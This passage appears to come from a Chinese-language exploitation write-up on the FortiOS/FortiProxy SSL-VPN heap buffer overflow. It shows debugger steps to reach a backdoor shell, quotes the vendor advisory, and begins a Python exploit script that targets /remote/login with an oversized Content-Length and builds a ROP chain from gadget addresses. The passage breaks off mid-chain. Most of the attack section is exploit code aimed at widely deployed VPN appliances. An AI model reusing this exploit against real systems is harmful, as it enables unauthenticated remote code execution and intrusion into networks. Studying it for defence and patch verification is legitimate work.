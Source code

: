   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfts5D8G7MYMnS0SJ5gUa9rc6BvicsibU7Dbub3mmVRz39UUke4k9gbGZA/640?wx_fmt=png&from=appmsg "")  
  
  
过了这里 ni 然后 set $rax=0 再c就可以进去了  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dflg4VVv9OG8ToicrfNHnibNTTengXkhMWgzXzmicBaLU9XaxMG2ichlrN9w/640?wx_fmt=png&from=appmsg "")  
  
  
然后测试一下后门  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfvY1pRYa5yba0NZEDhmh6O0b8UM86CMTZfrZFXvsDf0LAQHhgpfkweQ/640?wx_fmt=png&from=appmsg "")  
  
  
成功拿到shell  
  
## 漏洞深度利用  
  
  
A heap-based buffer overflow vulnerability [CWE-122] in FortiOS SSL-VPN 7.2.0 through 7.2.2, 7.0.0 through 7.0.8, 6.4.0 through 6.4.10, 6.2.0 through 6.2.11, 6.0.15 and earlier and FortiProxy SSL-VPN 7.2.0 through 7.2.1, 7.0.7 and earlier may allow a remote unauthenticated attacker to execute arbitrary code or commands via specifically crafted requests.  
  
  
在 FortiOS SSL-VPN 7.2.0 至 7.2.2、7.0.0 至 7.0.8、6.4.0 至 6.4.10、6.2.0 至 6.2.11、6.0.15 及更早版本，以及 FortiProxy SSL-VPN 7.2.0 至 7.2.1、7.0.7 及更早版本中，存在一个基于堆的缓冲区溢出漏洞 [CWE-122]。该漏洞可能允许远程未经身份验证的攻击者通过特制的请求执行任意代码或命令。  
  
### 带sh环境下的攻击  
  
```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
#0x000000000257008a push rdx.pop rdi.ret
#0x00000000017ec3b7 : add rdx, 0x28 ; cmp eax, 7 ; jne 0x17ec3b0 ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret
#0x000000000065e899 : pop rax ; sti ; ret
#0x00000000012ce87f : std ; pop rdx ; ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x0000000000509372 : pop rdx ; ret

ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x7)

ROP+=struct.pack('q',0x00000000017ec3b7)
ROP+=struct.pack('q',0x00000000017ec3b7)
ROP+=struct.pack('q',0x00000000017ec3b7)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x000000000046bb27)
ROP+=struct.pack('q',0x58)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0)
```
